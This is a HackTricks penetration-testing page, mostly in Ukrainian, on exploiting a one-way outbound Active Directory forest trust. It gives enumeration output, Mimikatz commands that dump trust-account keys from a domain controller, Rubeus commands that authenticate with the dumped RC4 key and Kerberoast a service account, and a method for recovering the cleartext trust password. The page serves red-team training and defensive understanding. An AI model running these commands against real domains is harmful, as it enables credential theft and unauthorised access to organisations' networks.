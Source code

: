 # External Forest Domain - One-Way (Outbound)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

У цьому сценарії **ваш домен** **довіряє** деяким **привілеям** принципалу з **інших доменів**.

## Enumeration

### Outbound Trust
```powershell
# Notice Outbound trust
Get-DomainTrust
SourceName      : root.local
TargetName      : ext.local
TrustType       : WINDOWS_ACTIVE_DIRECTORY
TrustAttributes : FOREST_TRANSITIVE
TrustDirection  : Outbound
WhenCreated     : 2/19/2021 10:15:24 PM
WhenChanged     : 2/19/2021 10:15:24 PM

# Lets find the current domain group giving permissions to the external domain
Get-DomainForeignGroupMember
GroupDomain             : root.local
GroupName               : External Users
GroupDistinguishedName  : CN=External Users,CN=Users,DC=DOMAIN,DC=LOCAL
MemberDomain            : root.io
MemberName              : S-1-5-21-1028541967-2937615241-1935644758-1115
MemberDistinguishedName : CN=S-1-5-21-1028541967-2937615241-1935644758-1115,CN=ForeignSecurityPrincipals,DC=DOMAIN,DC=LOCAL
## Note how the members aren't from the current domain (ConvertFrom-SID won't work)
```
## Trust Account Attack

Вразливість безпеки існує, коли встановлюється відносини довіри між двома доменами, які тут позначені як домен **A** і домен **B**, де домен **B** розширює свою довіру до домену **A**. У цій конфігурації спеціальний обліковий запис створюється в домені **A** для домену **B**, який відіграє вирішальну роль у процесі аутентифікації між двома доменами. Цей обліковий запис, пов'язаний з доменом **B**, використовується для шифрування квитків для доступу до послуг між доменами.

Критичний аспект, який потрібно зрозуміти тут, полягає в тому, що пароль і хеш цього спеціального облікового запису можуть бути витягнуті з контролера домену в домені **A** за допомогою інструменту командного рядка. Команда для виконання цієї дії:
```powershell
Invoke-Mimikatz -Command '"lsadump::trust /patch"' -ComputerName dc.my.domain.local
```
Ця екстракція можлива, оскільки обліковий запис, позначений знаком **$** після його імені, активний і належить до групи "Domain Users" домену **A**, тим самим успадковуючи дозволи, пов'язані з цією групою. Це дозволяє особам аутентифікуватися в домені **A** за допомогою облікових даних цього облікового запису.

**Увага:** Існує можливість використати цю ситуацію для отримання доступу до домену **A** як користувач, хоча з обмеженими дозволами. Однак цей доступ є достатнім для виконання перерахунку в домені **A**.

У сценарії, де `ext.local` є довірчим доменом, а `root.local` є довіреним доменом, обліковий запис користувача з ім'ям `EXT$` буде створено в `root.local`. За допомогою специфічних інструментів можливо вивантажити ключі довіри Kerberos, розкриваючи облікові дані `EXT$` у `root.local`. Команда для досягнення цього виглядає так:
```bash
lsadump::trust /patch
```
Наступним кроком можна використовувати витягнутий ключ RC4 для автентифікації як `root.local\EXT$` в `root.local`, використовуючи команду іншого інструмента:
```bash
.\Rubeus.exe asktgt /user:EXT$ /domain:root.local /rc4:<RC4> /dc:dc.root.local /ptt
```
Цей крок аутентифікації відкриває можливість перераховувати та навіть експлуатувати сервіси в `root.local`, такі як виконання атаки Kerberoast для витягнення облікових даних облікового запису служби за допомогою:
```bash
.\Rubeus.exe kerberoast /user:svc_sql /domain:root.local /dc:dc.root.local
```
### Збір пароля довіри в чистому вигляді

У попередньому потоці використовувався хеш довіри замість **чистого текстового пароля** (який також був **вивантажений за допомогою mimikatz**).

Чистий текстовий пароль можна отримати, перетворивши вихід \[ CLEAR ] з mimikatz з шістнадцяткового формату та видаливши нульові байти ‘\x00’:

![](<../../.gitbook/assets/image (938).png>)

Іноді при створенні відносин довіри користувачеві потрібно ввести пароль для довіри. У цій демонстрації ключем є оригінальний пароль довіри, тому він читається людиною. Оскільки ключ змінюється (кожні 30 днів), чистий текст не буде читабельним для людини, але технічно все ще буде використовуваним.

Чистий текстовий пароль можна використовувати для виконання звичайної аутентифікації як обліковий запис довіри, альтернативи запиту TGT за допомогою секретного ключа Kerberos облікового запису довіри. Тут запитуємо root.local з ext.local для членів Domain Admins:

![](<../../.gitbook/assets/image (792).png>)

## Посилання

* [https://improsec.com/tech-blog/sid-filter-as-security-boundary-between-domains-part-7-trust-account-attack-from-trusting-to-trusted](https://improsec.com/tech-blog/sid-filter-as-security-boundary-between-domains-part-7-trust-account-attack-from-trusting-to-trusted)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
